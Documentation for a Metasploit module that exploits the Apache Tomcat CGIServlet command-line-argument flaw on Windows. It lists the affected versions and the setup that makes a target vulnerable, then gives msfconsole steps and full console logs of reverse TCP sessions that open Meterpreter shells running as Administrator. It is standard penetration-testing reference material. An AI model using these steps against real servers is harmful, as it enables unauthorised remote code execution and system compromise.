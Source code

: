 ## Description

This module exploits a vulnerability in Apache Tomcat's CGIServlet component. When the enableCmdLineArguments setting is set to true, a remote user can abuse this to execute system commands, and gain remote code execution.

## Vulnerable Application

The following versions of Apache Tomcat on Windows are effected:

* 9.0.0.M1 to 9.0.17
* 8.5.0 to 8.5.39
* 7.0.0 to 7.0.93

Also, the machine needs to enable the `enableCmdLineArguments` option in `conf\web.xml`. For example:

```xml
<servlet>
<servlet-name>cgi</servlet-name>
<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
<init-param>
  <param-name>cgiPathPrefix</param-name>
  <param-value>WEB-INF/cgi</param-value>
</init-param>
<init-param>
  <param-name>executable</param-name>
  <param-value></param-value>
</init-param>
<init-param>
  <param-name>enableCmdLineArguments</param-name>
  <param-value>true</param-value>
</init-param>
<load-on-startup>5</load-on-startup>
</servlet>
```

Also:

```xml
<servlet-mapping>
<servlet-name>cgi</servlet-name>
<url-pattern>/cgi/*</url-pattern>
</servlet-mapping>
```

Next, modify the `conf\context.xml` file replacing `<Context>` with `<Context privileged="true">`

Finally, a script needs to be available in the `webapps\ROOT\WEB-INF\cgi` directory. For example:

```
@echo off
echo Content-Type: text/plain
echo.
echo Hello, World!
```

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/windows/http/tomcat_cgi_cmdlineargs`
3. Configure rhosts
4. Configure TARGETURI
5. Set a payload
6. Run the module, you should get a session.

## Scenarios

### Apache Tomcat 9.0.17 with JDK 8 on Windows 10 Pro (x64)

#### Check Method

The check method of the exploit explicitly triggers the bug to verify the vulnerable, therefore it should be accurate. To use it, here is an example:

```
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > check
[+] 172.16.135.141:8080 - The target is vulnerable.
```

#### Code Execution

```
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > exploit

[*] Started reverse TCP handler on 172.16.135.1:4444 
[*] Checking if 172.16.135.141 is vulnerable
[*] 172.16.135.141 seems vulnerable, what a good day.
[*] Command Stager progress -   6.95% done (6999/100668 bytes)
[*] Command Stager progress -  13.91% done (13998/100668 bytes)
[*] Command Stager progress -  20.86% done (20997/100668 bytes)
[*] Command Stager progress -  27.81% done (27996/100668 bytes)
[*] Command Stager progress -  34.76% done (34995/100668 bytes)
[*] Command Stager progress -  41.72% done (41994/100668 bytes)
[*] Command Stager progress -  48.67% done (48993/100668 bytes)
[*] Command Stager progress -  55.62% done (55992/100668 bytes)
[*] Command Stager progress -  62.57% done (62991/100668 bytes)
[*] Command Stager progress -  69.53% done (69990/100668 bytes)
[*] Command Stager progress -  76.48% done (76989/100668 bytes)
[*] Command Stager progress -  83.43% done (83988/100668 bytes)
[*] Command Stager progress -  90.38% done (90987/100668 bytes)
[*] Command Stager progress -  97.34% done (97986/100668 bytes)
[*] Sending stage (179779 bytes) to 172.16.135.141
[*] Meterpreter session 1 opened (172.16.135.1:4444 -> 172.16.135.141:51982) at 2019-06-18 15:26:54 -0500
[*] Command Stager progress - 100.02% done (100692/100668 bytes)

meterpreter > 
[!] Make sure to manually cleanup the exe generated by the exploit
```

### Tomcat 8.5.20 with JDK 1.8.0_211-b12 on Windows 2012 (Build 9200)
```
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > check
[+] 2.2.2.2:8080 - The target is vulnerable.
msf5 exploit(windows/http/tomcat_cgi_cmdlineargs) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Checking if 2.2.2.2 is vulnerable
[*] 2.2.2.2 seems vulnerable, what a good day.
[*] Command Stager progress -   6.95% done (6999/100668 bytes)
[*] Command Stager progress -  13.91% done (13998/100668 bytes)
[*] Command Stager progress -  20.86% done (20997/100668 bytes)
[*] Command Stager progress -  27.81% done (27996/100668 bytes)
[*] Command Stager progress -  34.76% done (34995/100668 bytes)
[*] Command Stager progress -  41.72% done (41994/100668 bytes)
[*] Command Stager progress -  48.67% done (48993/100668 bytes)
[*] Command Stager progress -  55.62% done (55992/100668 bytes)
[*] Command Stager progress -  62.57% done (62991/100668 bytes)
[*] Command Stager progress -  69.53% done (69990/100668 bytes)
[*] Command Stager progress -  76.48% done (76989/100668 bytes)
[*] Command Stager progress -  83.43% done (83988/100668 bytes)
[*] Command Stager progress -  90.38% done (90987/100668 bytes)
[*] Command Stager progress -  97.34% done (97986/100668 bytes)
[*] Sending stage (179779 bytes) to 2.2.2.2
[*] Command Stager progress - 100.02% done (100692/100668 bytes)
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49612) at 2019-06-24 20:44:45 -0400

meterpreter > 
[!] Make sure to manually cleanup the exe generated by the exploit
dir
Listing: C:\Users\Administrator\Desktop\apache-tomcat-8.5.20\webapps\ROOT\WEB-INF\cgi
=====================================================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   0      dir   2019-06-24 20:44:19 -0400  %SystemDrive%
100777/rwxrwxrwx  73802  fil   2019-06-24 20:44:19 -0400  dKASF.exe
100777/rwxrwxrwx  67     fil   2019-06-20 21:52:49 -0400  example.bat
100777/rwxrwxrwx  69     fil   2019-06-24 15:15:13 -0400  test.bat

meterpreter > sysinfo
Computer        : WIN-EDKFSE5QPAB
OS              : Windows 2012 (Build 9200).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WIN-EDKFSE5QPAB\Administrator
meterpreter > shell
Process 3256 created.
Channel 1 created.
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop\apache-tomcat-8.5.20\webapps\ROOT\WEB-INF\cgi>cd ..\..\..\..\bin
cd ..\..\..\..\bin

C:\Users\Administrator\Desktop\apache-tomcat-8.5.20\bin>catalina.bat version
catalina.bat version
Using CATALINA_BASE:   "C:\Users\Administrator\Desktop\apache-tomcat-8.5.20"
Using CATALINA_HOME:   "C:\Users\Administrator\Desktop\apache-tomcat-8.5.20"
Using CATALINA_TMPDIR: "C:\Users\Administrator\Desktop\apache-tomcat-8.5.20\temp"
Using JRE_HOME:        "C:\Program Files\Java\jdk1.8.0_211"
Using CLASSPATH:       "C:\Users\Administrator\Desktop\apache-tomcat-8.5.20\bin\bootstrap.jar;C:\Users\Administrator\Desktop\apache-tomcat-8.5.20\bin\tomcat-juli.jar"
Server version: Apache Tomcat/8.5.20
Server built:   Aug 2 2017 21:35:49 UTC
Server number:  8.5.20.0
OS Name:        Windows Server 2012
OS Version:     6.2
Architecture:   amd64
JVM Version:    1.8.0_211-b12
JVM Vendor:     Oracle Corporation

C:\Users\Administrator\Desktop\apache-tomcat-8.5.20\bin>
```
